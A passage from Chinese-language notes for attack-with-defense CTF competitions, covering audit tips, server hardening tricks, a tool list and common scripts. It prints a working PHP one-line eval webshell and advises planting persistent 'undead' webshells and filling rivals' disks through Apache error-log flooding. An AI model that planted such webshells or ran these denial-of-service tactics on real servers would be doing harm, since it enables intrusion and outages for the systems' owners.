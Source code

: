 #### 6. 最主要的几点
- 审计反序列化时，直接__destruct全局搜索，而后往下推进，查看是否存在可利用的参数与可利用的方法。
- 审计SQL注入时，一定要摒弃所有封装的外层直接查看最底层的SQL语句实现。
- 代码审计找的其实就是用户可控的参数与可控的函数。



## 0x04 小技巧

#### 1. 如何完全获得www目录（即自己通过ssh连上靶机的用户）权限

一般来说，www目录下的权限为www-data用户的，这也是apache的权限，而我们则是一个新用户，比方说ubuntu，我们同这个www-data同处一个用户组，远程RCE写入的webshell可能无法被删除（ubuntu没法操作www-data的文件）所以获得自己对www目录的权限很重要。

加固阶段先备份www目录，然后rm -rf www(此时权限744)再重新上传自己的www，从而获得自己权限的www。

#### 2. Apache错误日志写满硬盘使他人服务被down从而自己得分

Apache的权限叫普通用户较高，所以写入的文件无法被删除。

直接ddos访问错误路径写入log导致其他选手服务无法正常服务。

框架一般有日志，访问一个错误路径即可。

#### 3. 给自己种不死马

apache的权限比普遍用户的权限较高，所以如果给自己种一个加密的不死马，在服务器被其他人提权后，还能拥有一定权限（www-data）可以在发生如上情况是及时止损。



## 0x05 工具

- Burpsuite    抓包改包工具
- FoxyProxy/SwitchyOmega    火狐浏览器代理设置工具
- dirsearch/御剑    目录爆破工具
- D盾（Webshellkill.exe）    查杀后门
- Seay代码审计工具
- 菜刀/蚁剑    后门连接工具
- phpstudy_pro    windows本地php环境
- MobaXterm/SecureCRT/Putty    SSH连接服务器后台，MobaXterm还有很多其他功能
- MobaXterm/Filezilla    FTP连接工具
- Pycharm/VScode    python调试工具
- Sublime Text    配置好python、php插件可以当做调试工具用，也可以当文本编辑器用，功能很强大

还有很多其他工具没有一一列举，以后遇到还有其他常用的再补充。



## 0x06 常见脚本

#### 1. 一句话

```php
<?php @eval($_POST[x]);?>
```

#### 2. 生成不死马
